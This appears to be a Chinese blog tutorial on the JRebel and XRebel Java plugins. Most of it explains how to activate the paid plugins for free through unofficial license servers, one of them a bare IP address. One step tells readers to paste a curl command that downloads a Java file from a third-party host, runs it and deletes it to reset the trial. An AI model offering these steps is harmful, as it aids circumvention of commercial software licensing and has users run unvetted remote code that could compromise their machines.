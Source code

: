 ```yaml
---
author: meow
comments: true
title: Rebel+XRebel激活教程（热部署和请求链路追踪）
categories:
- 后端
tags:
- Rebel
- XRebel
- 链路追踪
- 热部署
- creak
---
```


## 介绍
IDEA 上原生是不支持热部署的，当我们修改代码和配置文件等大部分操作时，都需要重启服务器。

JRebel 是一款 JAVA 虚拟机插件，它使得 JAVA 程序员能在不进行重部署的情况下，即时看到代码的改变对一个应用程序带来的影响。JRebel 使你能即时分别看到代码、类和资源的变化，从而跳过了构建和部署的过程，可以省去大量的部署用的时间。

目前对于 idea 热部署最好的解决方案就是安装 JRebel。

XRebel 是不间断运行在 web 应用的交互式分析器，当发现问题会在浏览器中显示警告信息。XRebel 会实时监测应用代码的性能指标和可能会发生的问题。

[官方文档](https://manuals.jrebel.com/jrebel/index.html)

## 安装激活

1. 通过 IDEA 插件仓库查询JRebel/XRebel。
2. 由于该插件为收费，我们需要对插件进行激活
- 依次进入 help->Jrebel->Activation
- 服务器地址：https://jrebel.qekang.com/{GUID}
- 生成 GUID：在线 GUID 地址
- 将服务器地址与 GUID 拼接后填入 Team URL
- 点击 CHANGE LICENSE 到此，JRebel 就激活完成了。
3. 2023年12月21日 新增激活方法
   - 使用说明
   - Jrebel License Server! (兼容 2023.4.0 +)
   - JRebel 激活地址: http://42.193.18.168:8088/01371537-b252-42d5-bf05-9af98f321b98
   - JRebel 激活邮箱: 118392072@qq.com
   - JRebel 无限试用，请将以下内容拷贝到命令提示符中
   - 执行:
   ``` curl https://register.jpy.wang/ReRegister/src/main/java/jrebel/JrebelMain.java -o tmp.java && java tmp.java && del tmp.java```
   - [解决方式来源](https://www.jpy.wang/page/jrebel.html)


## 设置
1. 设置为离线工作模式，点击 WORK OFFLICE（File-setting-JRebel/XRebel）
2. 2.为 IDEA 设置自动编译（一般默认就是自动编译）(file-setting-build-Compiler-build project automatically **打勾**)

## XRebel 性能分析链路追踪
1. XRebel 访问
项目启动后访问地址为：服务器项目应用地址/xrebel
例如：http://localhost:8080/xrebel
